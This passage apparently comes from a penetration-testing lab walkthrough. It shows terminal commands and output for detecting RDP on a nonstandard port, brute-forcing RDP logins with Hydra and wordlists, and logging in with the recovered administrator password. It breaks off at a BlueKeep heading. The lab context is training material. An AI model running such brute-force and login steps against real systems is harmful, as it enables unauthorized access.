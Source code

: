 ```bash
[*] 10.4.28.81:3333       - Detected RDP on 10.4.28.81:3333       (Windows version: 6.3.9600) (Requires NLA: Yes)
[*] 10.4.28.81:3333       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/rdp/rdp_scanner) > 

```

We have successfully detected the RDP service port. Also, We can notice that the target RDP service port is not exposed to the default port (3389), instead it is exposed on port 3333

<br />

**bruteforce RDP credentials on port 3333 after detecting that RDP is running on it**

```bash
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.28.81 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-15 19:48:45
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.4.28.81:3333/
[3333][rdp] host: 10.4.28.81   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.28.81   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.28.81   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.28.81   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
[STATUS] 6181.00 tries/min, 6181 tries in 00:01h, 882 to do in 00:01h, 4 active
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-15 19:50:03

```

<br />

**connect to the target via RDP**

```bash
root@attackdefense:~# xfreerdp /u:administrator /p:qwertyuiop /v:10.4.28.81:3333 
```

<br />



**CVE-2019-0708 - BlueKeep RDP**
